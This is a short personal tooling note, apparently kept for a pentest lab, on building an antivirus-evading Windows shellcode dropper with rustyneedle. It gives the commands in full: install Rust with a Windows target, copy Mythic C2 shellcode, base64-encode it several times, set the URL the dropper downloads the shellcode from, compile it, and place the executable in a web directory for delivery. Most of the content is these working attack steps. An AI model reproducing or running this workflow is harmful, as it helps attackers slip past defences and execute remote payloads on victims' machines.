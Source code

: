 rustyneedle is a python script used to modify raw shellcode, and provide an executable.

https://codeberg.org/mttaggart/rustyneedle

```
# Clone the repo
git clone https://codeberg.org/mttaggart/rustyneedle.git

# Install rust
sudo apt install rustup -y
rustup default stable

# Set the compilation target, and add it in this case 64 bit Windows
rustup target add x86_64-pc-windows-gnu
```
There's a few things we have to do. We have to install rust, modify the  src/main.rs file to our options

Specifically, modify the number of base64 iterations, and where the shellcode is downloaded from.

Take note of lines 10 and 12
![[notes/Atomic-Notes/40000-TOOLS/42000-AV-BYPASS/4210-rustyneedle/Pasted image 20250529002207.png]]

Now, we need to make our encoded shellcode.
```bash
# Create raw shellcode, like with C2 Mythic. It will be an output option, .bin extension
cd rustyneedle
cp ~/c2/shellcode.bin .

# Encode the shellcode. note that the output file name is note.txt
python3 rustyneedle/encode.py shellcode.bin 3 note.txt

# Take note of where in the dropper we put the downloaded url, and put the note.txt shellcode file there

# Compile the main.rs dropper
cargo build --target x86_64-pc-windows-gnu --release

# Navigate the binary and put it where we want
cp target/x86_64-pc-windows-gnu/release/rustyneedle.exe ~/prolab/cybernetic/web



```


